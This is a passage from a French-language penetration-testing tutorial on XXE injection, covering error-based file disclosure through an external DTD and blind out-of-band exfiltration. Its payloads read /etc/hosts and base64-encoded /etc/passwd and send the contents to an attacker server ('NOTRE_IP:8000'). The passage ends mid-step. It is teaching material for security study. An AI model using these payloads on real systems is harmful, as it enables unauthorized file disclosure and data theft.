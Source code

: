 On peut provoquer des erreurs en envoyant du XML malformé :

* Supprimer une balise de fermeture.
* Modifier une balise (ex. `<roo>` au lieu de `<root>`).
* Référencer une entité inexistante.

**Exploitation via DTD externe**

1. Créer un fichier `xxe.dtd` avec une charge utile pour exploiter l’erreur :

```xml
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

* `%file` = fichier cible
* `%error` = combine `%file` avec une entité inexistante pour provoquer une erreur et afficher le contenu

2. Référencer le DTD et l’entité d’erreur dans le XML envoyé :

```xml
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://NOTRE_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```

* L’application va générer une **erreur qui contient le contenu de `/etc/hosts`**.

**Remarques**

* On peut changer le fichier ciblé (ex. `submitDetails.php`) pour lire d’autres fichiers.
* Cette méthode est **moins fiable** que CDATA ou Parameter Entities : limitée par la taille des erreurs et certains caractères spéciaux.

***

## <mark style="color:red;">**Blind Data Exfiltration**</mark>

#### <mark style="color:green;">Exfiltration des Données Hors Bande (OOB)</mark>

Dans un scénario où l'application web ne renvoie aucune réponse affichant les entités XML, nous pouvons forcer l'application à envoyer une requête HTTP vers notre serveur contenant les données exfiltrées.

**Méthode avec une entité externe**

Nous définissons une entité SYSTEM pour lire le fichier cible et l'encoder en Base64 :

```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://NOTRE_IP:8000/?content=%file;'>">
```

Ensuite, nous envoyons une requête XML malveillante à l'application web :
